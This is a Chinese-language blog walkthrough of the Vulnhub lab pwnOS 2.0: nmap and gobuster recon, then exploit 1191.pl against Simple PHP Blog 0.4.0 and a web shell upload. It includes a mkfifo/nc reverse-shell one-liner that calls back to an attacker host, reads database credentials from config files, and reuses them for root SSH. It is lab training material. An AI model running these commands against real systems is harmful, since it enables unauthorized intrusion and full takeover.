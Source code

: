 ```yaml
---
title: Vulnhub-PWNOS2.0 
date: 2024-02-20 
categories: [Training platform,Vulnhub]  
tags: [Vulnhub,web]  
permalink: "/Vulnhub/Pwnos2.html"
---
```


# PWNOS2.0

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401091.png" alt="image-20240220103740848" style="zoom:50%;" />

打开虚拟机压缩包，查看一下文件：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401092.png" alt="image-20240220104015340" style="zoom:50%;" />

打开靶机看一下，按照要求改一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401093.png" alt="image-20240220105926050" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401094.png" alt="image-20240220110215913" style="zoom:50%;" />

后来又换成了nat模式：

```bash
nmap -sn 10.10.10.0/24
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401095.png" alt="image-20240220110747048" style="zoom:50%;" />

找到目标主机了，可以开始攻击辣！

## 信息搜集

### 端口扫描

```shell
nmap --min-rate 8888 -p- 10.10.10.100
nmap -p 22,80 -Pn -sV 10.10.10.100
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401096.png" alt="image-20240220110959128" style="zoom:50%;" />

### 80端口访问

![image-20240220111348751](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401097.png)

### wappalyzer插件

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401098.png" alt="image-20240220111412077" style="zoom:50%;" />

### 目录扫描

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.100 -f -t 200
```

![image-20240220111609734](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401099.png)

## 漏洞利用

### sql 

扫描出目录以后访问一下，找到`/login`

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401100.png" alt="image-20240220112742159" style="zoom:50%;" />

尝试万能密码：

![image-20240220112904885](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401101.png)

嘶。。。。。



### blog exploit

找的时候发现了一个博客：

![image-20240220113107012](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401102.png)

查看一下源代码：

![image-20240220115147255](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401103.png)

也可以使用`whatweb`：

![image-20240220121842037](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401104.png)

发现了blog版本，查找一下相关漏洞：

![image-20240220115409707](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401105.png)

下载，并尝试运行一下：

```bash
searchsploit simple php blog 0.4.0 -m 1191.pl
```

> perl 1191.pl的时候遇到了报错：
>
> Can't locate Switch.pm in @INC (you may need to install the Switch module) (@INC contains: /etc/perl /usr/local/lib/x86_64-linux-gnu/perl/5.36.0 /usr/local/share/perl/5.36.0 /usr/lib/x86_64-linux-gnu/perl5/5.36 /usr/share/perl5 /usr/lib/x86_64-linux-gnu/perl-base /usr/lib/x86_64-linux-gnu/perl/5.36 /usr/share/perl/5.36 /usr/local/lib/site_perl) at 1191.pl line 146.
> BEGIN failed--compilation aborted at 1191.pl line 146.
>
> Solution: sudo apt-get install libswitch-perl

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401106.png" alt="image-20240220120124718" style="zoom:50%;" />

尝试利用：

```shell
perl 1191.pl -h http://10.10.10.100/blog -e 2 
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401107.png" alt="image-20240220120227838" style="zoom:50%;" />

获取到了hash，但是是个被md5加密过的。。。。

尝试脚本的其他选项：

#### -e 1 上传cmd.php

```shell
perl 1191.pl -h http://10.10.10.100/blog -e 1
curl "http://10.10.10.100/blog/images/cmd.php?cmd=ls+-la"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401108.png" alt="image-20240220120932582" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401109.png" alt="image-20240220120943467" style="zoom:50%;" />

然后我们可以尝试连接一下：

```shell
curl "http://10.10.10.100/blog/images/cmd.php?cmd=nc+-h+2>%261"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401110.png" alt="image-20240220121301619" style="zoom:50%;" />

可以看到是`OpenBSD netcat`，尝试反向连接：

```bash
# rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|nc $HOST $PORT >/tmp/f
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|nc 10.10.10.128 1234 >/tmp/f
curl "http://10.10.10.100/blog/images/cmd.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;bash</tmp/f|nc+10.10.10.128+1234>/tmp/f+2>%261"
# kali
nc -lvnp 1234
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401111.png" alt="image-20240220122608997" style="zoom:50%;" />

获取到了！

#### -e 3 创建用户

```bash
perl 1191.pl -h http://10.10.10.100/blog -e 3 -U admin -P password
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401112.png" alt="image-20240220133443687" style="zoom:50%;" />

登陆一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401113.png" alt="image-20240220133535620" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401114.png" alt="image-20240220133551833" style="zoom:50%;" />

登录成功了，尝试上传一个文件：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401116.png" alt="image-20240220134734699" style="zoom:50%;" />

访问一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401117.png" alt="image-20240220134815196" style="zoom:50%;" />

上传成功了！！监听再访问即可获取shell！

![image-20240220135204201](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401118.png)

`sudo -l`不知道密码，执行不了。

## 提权

```shell
cd /var/www
ls -l
# total 36                                                                                   
# -rw-r--r--  1 root root 1374 Mar 24  2008 activate.php                                     
# drwxrwxrwx 11 root root 4096 May  9  2011 blog                                             
# drwxr-xr-x  2 root root 4096 May  7  2011 includes                                         
# -rw-r--r--  1 root root  629 May  7  2011 index.php                                        
# -rw-r--r--  1 root root   23 Apr  3  2008 info.php                                         
# -rw-r--r--  1 root root 3091 May  7  2011 login.php                                         
# -rw-r--r--  1 root root  516 Apr  2  2008 mysqli_connect.php
# -rw-r--r--  1 root root 4618 Apr  2  2008 register.php 
```

```php
# cat mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php                                                                         

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'goodday');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>
```

获取到了数据库的用户与密码！！！但是我一进行mysql相关命令就会卡死，不知道为啥，只能尝试一下ssh连接了。。。。

```shell
ssh root@10.10.10.100
goodday
```

![image-20240220124730394](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401119.png)

密码不正确，再找一下其他的：

```shell
find / -name 'mysqli_connect.php' 2>/dev/null
# /var/mysqli_connect.php
# /var/www/mysqli_connect.php
```

```php
# cat /var/mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>
```

又得到一个用户名，尝试登录：

![image-20240220124806742](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402201401120.png)

获取到了root权限！